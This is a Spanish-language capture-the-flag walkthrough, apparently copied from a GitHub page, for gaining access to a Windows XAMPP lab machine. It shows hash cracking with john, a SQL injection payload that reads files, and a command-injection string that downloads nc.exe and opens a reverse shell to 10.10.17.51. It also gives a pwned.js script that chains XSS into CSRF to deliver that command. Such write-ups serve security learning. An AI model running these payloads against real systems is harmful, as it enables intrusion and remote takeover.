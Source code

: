 1. Crackeo de hash con john

    ```bash
    echo "root:*F435735A173757E57BD36B09048B8B610FF4D0C4" > credentials.txt
    john --wordlist=/usr/shar/wordlists/rockyou.txt credentials.txt
    ```

    Vemos que no podemos romper el hash

1. Intentamos leer ficheros

    ```bash
    1' union select 1,load_file("C:\\Windows\\System32\\drivers\\etc\\hosts"),3-- -
    ```

    El fichero 
```bash
 \etc\hosts 
```
 no nos interesa en este caso pero hemos podido comprobar si podiamos leer ficheros.


    miramos por el fichero 
```bash
 C:\\xampp\\htdocs\\admin\\backdoorchecker.php 
```
 y podemos ver la manera de ejecutar comandos bypasseando los badchars.


La idea aqui seria de ejecutar un comando de typo 
```bash
 cmd=dir|powershell -c "iwr -uri http://10.10.17.51/nc.exe -Outfile %temp%\\nc.exe";%temp%\\nc.exe -e cmd 10.10.17.51 443 
```
.
El problema aqui sigue siendo el echo de no poder lanzar este comando porque no estamos lanzando esta peticion desde el localhost de la maquina victima.


## Vuln exploit & Gaining Access {-}

### De un XSS a un XSRF par conseguir un RCE para ganar accesso al systema{-}

Esto puede funccionar unicamente si el usuario admin que valida las transacciones esta loggeada al panel de administracion desde la propria maquina victima.

Intentamos y miramos.

1. Creamos un ficher pwned.js

    ```javascript
    var request = new XMLHttpRequest();
    params = 'cmd=dir|powershell -c "iwr -uri http://10.10.17.51/nc.exe -Outfile %temp%\\nc.exe";%temp%\\nc.exe -e cmd 10.10.17.51 443';
    request.open('POST', 'http://localhost/admin/backdoorchecker.php', true);
    request.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    request.send(params);
    ```
